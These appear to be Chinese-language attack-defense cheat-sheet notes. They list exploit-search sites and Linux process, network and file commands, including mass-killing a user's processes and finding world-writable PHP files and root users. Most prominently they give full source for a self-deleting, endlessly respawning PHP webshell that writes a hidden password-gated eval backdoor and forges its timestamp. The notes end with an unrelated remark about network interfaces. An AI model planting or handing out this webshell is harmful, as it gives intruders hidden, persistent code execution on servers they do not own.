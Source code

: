 exp收集

```
“<漏洞关键字> inurl:http://www.secbug.cn/bugs/”来搜索
cb.drops.wiki
https://exploits.shodan.io/
```

### 常用指令

```
top
ps aux | grep www-data
ps -u username | grep -v PID | awk '{print$1}' | xargs kill -9
pkill -kill -t <用户tty>
ps aux | grep pid/进程名字
#查看已经建立的网络连接以及进程
netstat -antulp | grep EST
#查看指定端口被哪个进程占用
lsof -i:端口号 或者 netstat -tunlp | grep 端口号
#结束进程命令
kill PID
killall <进程名>
kill - <PID>
find / *.php -perm 4777 //查找权限777的php文件
awk -F: '{if($3==0)print $1}' /etc/passwd //查看root权限用户
#检查所有tcp连接
netstat -ant | awk '{print $5 "\t" $6}' | grep "[1-9][0-9]*\." | sed -e 's/::ffff://' -e 's/:[0-9]*//' | sort | uniq -c | sort -rn
#查看指定目录下文件时间的排序
ls -alit | head -n 10
删除开头文件
rm -rf 'ls ^-'
rm -- -foo
rm ./-foo
```

```
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.3.php';
$code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
//pass=pass
while (1){
file_put_contents($file,$code);
system('touch -m -d "2018-12-01 09:10:12" .3.php');
usleep(5000);
}
?>
```

![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/cefc1e178a82b9010f8a584f638da9773912efa3)

![image-20211230162736950](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211230162736950.png)

后面的网卡可以先看一下重复的时候是怎么写的的，后面的接口不用写，应该是自动分配
